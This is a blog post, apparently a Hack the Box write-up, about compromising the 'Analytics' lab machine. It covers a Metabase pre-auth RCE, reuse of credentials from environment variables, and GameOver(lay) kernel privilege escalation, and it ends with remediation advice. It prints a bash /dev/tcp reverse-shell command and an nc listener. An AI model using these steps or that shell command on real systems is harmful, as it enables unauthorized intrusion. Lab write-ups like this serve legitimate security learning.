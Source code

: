 ```yaml
---
draft: false
title: "Hack the Box #2 - Analytics without Metasploit"
date: 2024-03-06T17:27:24+00:00
author: William
category:
  - Tech
tags:
  - Linux
  - Security
  - Hacking
cover:
  image: hack_the_box_2_analytics.png
  alt: hack_the_box_2_analytics.png
---
```

## Introduction
This is my first Hack the Box machine [pwned](https://www.hackthebox.com/achievement/machine/1695260/569) and it’s called Analytics. Here is a mock write-up of the lab because as we all know. It’s great being able to pwn things but if we can’t communicate the remediations to what we have done then there is no benefit past that juicy dopamine hit when you get root 😀

## Executive summary

The attacker achieved an initial foothold by abusing a pre-authentication remote code execution exploit to achieve a reverse shell. User credentials we then found in the environment variables and used to establish a user shell. This can be prevented by upgrading Metabase to the latest version and removing the environment variables with user account details if possible as a secondary objective.

Privilege was then escalated by using 2 kernel exploits from 2023 chained together. These can be remedied by upgrading our kernel version.  
The general recommendation is to update the software mentioned to later versions.

---
## Technical Findings
### Enumeration

Starting as per with a good old Nmap

![HackerImage](https://i.imgur.com/D6fORW7.png?resize=798%2C212&ssl=1#center)

Nothing of too much interest, let’s take a closer look at the website.

For this will need to put <http://analytical.htb/> in my hosts file and run this puppy through Burp suite

There isnt much here but the login reroutes us to <http://data.analytical.htb/>. Adding that to our hosts file gets us this lovely Metabase login screen

![HackerImage](https://i.imgur.com/OaJ9aIR.png?resize=504%2C552&ssl=1#center)

Lets dive into Metabase. There are default credentials available but those don't work. Looking for explicit exploits on the internet we find this [lovely git repo](https://github.com/Pyr0sec/CVE-2023-38646).

It allows for pre-auth remote code execution, this is exactly what we want. For this we need the setup token that can be found at the path `/api/session/properties`

Hitting this endpoint gets us a wonderful .json properties file. And within it we find the value of `setup-token` required for the execution of the exploit

![HackerImage](https://i.imgur.com/xVUvF7H.png?resize=1048%2C669&ssl=1#center)

---
### Exploitation

Using this wonderful script combined with the token we can initialize a reverse shell using the following command, oh and also don’t forget the listener on the other side:

`bash -i >& /dev/tcp/10.10.14.26/4444 0>&1<br></br>nc -nvlp 4444`

![HackerImage](https://i.imgur.com/HrFdCZ7.png?resize=1136%2C160&ssl=1#center)

The server returns an error message but we got the juicy juicy shell

![HackerImage](https://i.imgur.com/jmRtvHp.png?resize=537%2C183&ssl=1#center)

But sadly there is no flag in `/home/metabase` and mind you we are looking for both a user flag and a root flag… So is this not the user we are meant to be???

After a little digging around on this box for longer than I care to admit… I enumerated everything from cron jobs, running processes, kernel versions, installed apps, and much more looking for either user credentials or a route to escalate my privilage. I looked where I should have looked almost right away `env`

![HackerImage](https://i.imgur.com/S6NJTdc.png?resize=559%2C290&ssl=1#center)

And there is the puppy. META\_USER and META\_PASS. Now could these be used to log in to the open SSH port on 22?

![HackerImage](https://i.imgur.com/GTjtfdt.png?resize=652%2C152&ssl=1#center)

And it works! With our lovely user flag right there.

![HackerImage](https://i.imgur.com/woWFcy3.png?resize=711%2C38&ssl=1#center)

---
### Privilege Escalation

Now to get root. I came back to this bad boy while working in a coffee shop and used the pwnbox provided by Hack the Box as my attack box. Let’s see what we can do.

There are several things I tried to look through. What binaries run within the admin context? Nope… Perhaps some cron jobs? Nope

Well what is the kernel and OS we are running on?

![HackerImage](https://i.imgur.com/JLwNR2a.png?resize=799%2C70&ssl=1#center)

After a Google search for **linux 6.2.0-25-generic 22.04.2-ubuntu privilege escalation**, we found an interesting privilege escalation exploit called **GameOver(lay)** here is a link to a [POC on Github](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629)

The script is a massive one-liner so let’s copy that bad boy onto our target machine and give it execute permissions

![HackerImage](https://i.imgur.com/UlR3Ri3.png?resize=822%2C353&ssl=1#center)

This exploit makes use of two seperate vulnerabilities namely [**CVE-2023-2640**](https://www.cvedetails.com/cve/CVE-2023-2640/) and [**CVE-2023-32629**](https://www.cvedetails.com/cve/CVE-2023-32629/). Lets execute this bad boy!

![HackerImage](https://i.imgur.com/emOZ2X4.png?resize=741%2C112&ssl=1#center)

ROOT BABY!!! and we find a beautiful flag right where we want her!

![HackerImage](https://i.imgur.com/TaAKD3d.png?resize=601%2C47&ssl=1#center)

#### Conclusion

Both the exploitation of the Metabase and Kernel exploits can be solved with simply updating the respective software and operating system.

This was a fun lab and dont worry there are plenty more to come. Oh and if you have read this far… Go touch some grass 😀